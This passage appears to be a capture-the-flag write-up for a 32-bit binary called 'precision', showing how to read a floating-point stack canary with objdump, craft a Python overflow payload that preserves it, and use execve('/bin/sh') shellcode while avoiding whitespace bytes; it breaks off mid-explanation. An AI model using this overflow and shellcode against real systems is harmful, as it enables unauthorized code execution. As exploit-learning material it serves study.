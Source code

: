 So this double value is important. What is it?

{language=python}
~~~~~~~~
$ objdump -s --start-address=0x8048690 -j .rodata -M intel precision_a8f6f0590c177948fe06c76a1831e650

precision_a8f6f0590c177948fe06c76a1831e650:     file format elf32-i386

Contents of section .rodata:
 8048690 a5315a47 55155040                    .1ZGU.P@
~~~~~~~~

Accounting for little-endian encoding, our floating point canary is 0x40501555475a31a5, or 64.33333.

So now that we know what the canary is, we can overflow the stack buffer with the following python script:

{language=python}
~~~~~~~~
python -c "import struct; print 128*'A' + struct.pack('<d', 64.33333) + 512*'A'"
~~~~~~~~

This allows us to bypass the canary and trash EIP.

Since the binary is so kind as to print the address of the vulnerable stack buffer (i.e. the address of our shellcode), we can just dump our shellcode into the buffer and then overwrite EIP to jump into that buffer. Seems simple enough.

However, there is one subtle trick here! Note that scanf stops when it encounters any byte that is an ASCII whitespace char. So we must be careful to ensure that our shellcode does not contain any whitespace bytes!

Starting with some standard stack smashing shellcode (I used [http://shell-storm.org/shellcode/files/shellcode-811.php](http://shell-storm.org/shellcode/files/shellcode-811.php)), and running it through an x86 assembler (such as [https://defuse.ca/online-x86-assembler.htm](https://defuse.ca/online-x86-assembler.htm)), we have the following shellcode to work with:

{language=objdump-nasm}
~~~~~~~~
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  89 c1                   mov    ecx,eax
11: 89 c2                   mov    edx,eax
13: b0 0b                   mov    al,0xb
15: cd 80                   int    0x80
17: 31 c0                   xor    eax,eax
19: 40                      inc    eax
1a: cd 80                   int    0x80
~~~~~~~~

Well, that '0x0b' byte is gonna be problematic: in ASCII, that's a vertical tab character, which will make scanf stop reading our payload. We can't have that, so let's get around this using some math!
